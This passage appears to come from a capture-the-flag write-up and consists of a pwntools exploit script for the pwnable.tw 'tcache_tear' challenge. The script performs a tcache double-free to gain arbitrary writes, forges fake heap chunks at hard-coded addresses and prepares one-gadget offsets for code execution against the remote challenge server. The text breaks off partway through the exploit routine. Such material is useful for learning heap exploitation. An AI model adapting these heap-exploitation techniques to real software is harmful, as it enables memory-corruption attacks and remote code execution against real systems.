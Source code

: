 ```C

```


## exp.py

```py
#coding=utf-8
from pwn import *
context.update(arch='amd64',os='linux',log_level="debug")
context.terminal = ['tmux','split','-h']
debug = 0
elf = ELF('./tcache_tear')
if debug:
    p = process('./tcache_tear')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    offset = 0x3ebc40
    gadgets = [0x4f2c5,0x4f322,0x10a38c]
    gdb.attach(p)
else:
    libc = ELF('./libc.so')
    p = remote('chall.pwnable.tw',10207)
    offset = 0x3ebc40
    gadgets = [0x4f2c5,0x4f322,0x10a38c]

def Malloc(size,content):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Size:')
    p.sendline(str(size))
    p.recvuntil('Data:')
    p.send(content)

def Free():
    p.recvuntil('Your choice :')
    p.sendline('2')

def Info():
    p.recvuntil('Your choice :')
    p.sendline('3')

def Exit():
    p.recvuntil('Your choice :')
    p.sendline('4')

def exp():
    p.recvuntil('Name:')
    p.sendline('wz')
    Malloc(0x60,'a'*8)#idx0
    Free()
    Free()
    #Malloc(0x60,p64(0x60203d))#idx0
    Malloc(0x60,p64(0x602470))#idx0
    Malloc(0x60,'c'*8)#idx0
    ## write the next chunk of unsorted bin chunk
    Malloc(0x60,p64(0x0)+p64(0x21)+'a'*0x10+p64(0x20)+p64(0x21))
    #preapare for another double free
    Malloc(0x70,'a'*8)
    Free()
    Free()
    Malloc(0x70,p64(0x60203d))#a fake chunk ahead of 0x602060(name)
    Malloc(0x70,'a'*8)
```